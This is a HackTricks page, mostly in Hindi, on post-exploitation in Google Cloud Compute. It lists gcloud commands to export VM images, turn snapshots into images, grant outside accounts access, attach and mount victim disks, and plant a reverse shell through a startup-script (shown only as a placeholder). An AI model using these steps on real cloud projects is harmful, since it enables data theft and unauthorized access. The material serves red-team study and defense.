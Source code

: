 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute और VPC (Networking) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

यह एक हमलावर को **पहले से मौजूद इमेज में निहित डेटा तक पहुँचने** या **चल रहे VMs की नई इमेज बनाने** और उनके डेटा तक पहुँचने की अनुमति देगा बिना चल रहे VM तक पहुँच के।

एक VM इमेज को एक बकेट में निर्यात करना और फिर उसे डाउनलोड करना और स्थानीय रूप से माउंट करना संभव है, कमांड के साथ: 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

इस क्रिया को करने के लिए हमलावर को स्टोरेज बकेट पर विशेषाधिकार की आवश्यकता हो सकती है और निश्चित रूप से **cloudbuild पर विशेषाधिकार** की आवश्यकता है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा।\
इसके अलावा, इसके काम करने के लिए codebuild SA और compute SA को विशेषाधिकार प्राप्त अनुमतियों की आवश्यकता है।\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` को आवश्यकता है:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और SA `<project-id>-compute@developer.gserviceaccount.com` को आवश्यकता है:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्थानीय रूप से स्नैपशॉट और डिस्क का निर्यात और निरीक्षण करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **एक स्नैपशॉट को डिस्क में, एक डिस्क को इमेज में** बदलना संभव है और **पिछले अनुभाग** का पालन करते हुए, उस इमेज को निर्यात करना ताकि इसे स्थानीय रूप से निरीक्षण किया जा सके।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

**एक इमेज में संग्रहीत डेटा** या **चल रहे VM** के अंदर पहुंचने के लक्ष्य के साथ, जहां एक हमलावर **ने एक इमेज बनाई है,** एक बाहरी खाते को इमेज पर पहुंच प्रदान करना संभव है:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
और फिर इससे एक नया VM बनाएं:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
यदि आप अपनी बाहरी खाता छवि के माध्यम से पहुंच नहीं दे सके, तो आप पीड़ित की परियोजना में उस छवि का उपयोग करके एक VM लॉन्च कर सकते हैं और **मेटाडेटा को एक रिवर्स शेल निष्पादित करने के लिए बना सकते हैं** छवि तक पहुंच प्राप्त करने के लिए पैरामीटर जोड़ते हुए:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

**डिस्क या स्नैपशॉट में संग्रहीत डेटा तक पहुँचने के लक्ष्य के साथ, आप स्नैपशॉट को डिस्क में, डिस्क को इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **एक बाहरी खाते को डिस्क पर पहुँच प्रदान कर सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर पहुँच दें या इससे एक डिस्क बनाएं):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**डिस्क** को एक उदाहरण से **जोड़ें**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **VM में SSH करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **डिस्क पहचानें**: VM के अंदर पहुँचने के बाद, डिस्क उपकरणों की सूची बनाकर नई डिस्क की पहचान करें। आमतौर पर, आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पाएंगे।
3. **डिस्क को फॉर्मेट और माउंट करें** (यदि यह एक नई या कच्ची डिस्क है):
*   एक माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

यदि आप **snapshot या disk के लिए एक बाहरी प्रोजेक्ट को एक्सेस नहीं दे सकते**, तो आपको **snapshot/disk के समान प्रोजेक्ट में एक इंस्टेंस के अंदर ये क्रियाएँ करनी पड़ सकती हैं**।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

